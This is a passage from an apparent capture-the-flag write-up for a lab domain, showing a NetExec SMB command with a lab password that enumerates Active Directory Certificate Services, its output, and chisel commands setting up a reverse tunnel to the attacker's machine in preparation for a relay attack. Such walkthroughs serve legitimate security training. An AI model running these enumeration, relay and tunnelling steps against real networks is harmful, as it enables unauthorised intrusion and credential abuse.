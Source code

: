```bash
nxc smb dc-01.darkcorp.htb -u 'victor.r' -p 'victor1gustavo@#' -M enum_ca
SMB         172.16.20.1     445    DC-01            [*] Windows Server 2022 Build 20348 x64 (name:DC-01) (domain:darkcorp.htb) (signing:True) (SMBv1:False)                                                                                                                   
SMB         172.16.20.1     445    DC-01            [+] darkcorp.htb\victor.r:victor1gustavo@# 
ENUM_CA     172.16.20.1     445    DC-01            Active Directory Certificate Services Found.
ENUM_CA     172.16.20.1     445    DC-01            http://172.16.20.1/certsrv/certfnsh.asp
```

this is interesting!!!

![alt text](../assets/images/ezgif-5fc2a50a465ee7.gif)



Now i make sure something about `Relay`
But!!!!! 

We cannot put port 80 and 443 cause its required sudo privielges!!!!

i put my Bloodhound on port 8080!!!!

and put my FoxyProxy on 8081!!!! so i will put it on my 8082 or 8083!! with chisel;

```bash
./chisel_linux server -p 8888 --reverse

./chisel_linux client 10.10.14.11:8888 8083:10.10.14.11:80
```
